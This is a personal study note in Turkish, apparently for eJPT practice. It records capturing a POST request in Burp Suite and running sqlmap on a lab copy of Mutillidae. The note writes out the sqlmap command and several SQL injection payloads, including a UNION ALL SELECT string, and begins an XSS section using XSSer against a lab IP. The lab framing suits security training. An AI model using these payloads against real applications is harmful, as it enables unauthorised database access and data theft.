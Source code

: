 ### GET request' de yaptığımız işlemlerin aynısını yaptık ve POST request formu daha değişik . Yine joe ismi üzerinden sorgumuzu yaptık ve intercept'ledik.


# Bu sefer copy to file ile
## eJPT klasörü içinde SQL klasörüne intercept ettiğimz sonucu kaydettik.
![[Pasted image 20240505002249.png]]
![[Pasted image 20240505002203.png]]

### SQLMAP POST REQUEST
![[Pasted image 20240505002432.png]]
## sqlmap -r title-post-sql -p title
### kaydettiğimiz dosyanın "title-post-sql" adını verdik ve sqlmap otomatize işlemlerine başlayacak.
![[Pasted image 20240505002817.png]]
![[Pasted image 20240505002846.png]]
![[Pasted image 20240505002925.png]]
### title=joe' OR NOT 1877=1877#&action=search


##### title=joe%' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x71716a7671,0x69724773527364536d4f584b4b6d63444d575673656f626d6c56417654635946556b725471416274,0x717a627871),NULL,NULL#&action=search
![[Pasted image 20240505003226.png]]
![[Pasted image 20240505003212.png]]


### title=joe%' AND 7355=7355#&action=search
![[Pasted image 20240505003618.png]]



---

## XSS Attack with XSSer

### #xss-attack

### #xsser 
https://tryhackme.com/r/room/axss
### metasploitable2 mutillidae
### XSS  DNSLOOK up'a gir ve 
## hello world yaparak burpsuite de intercept'le
### http://10.0.2.7/mutillidae/index.php?page=dns-lookup.php

---
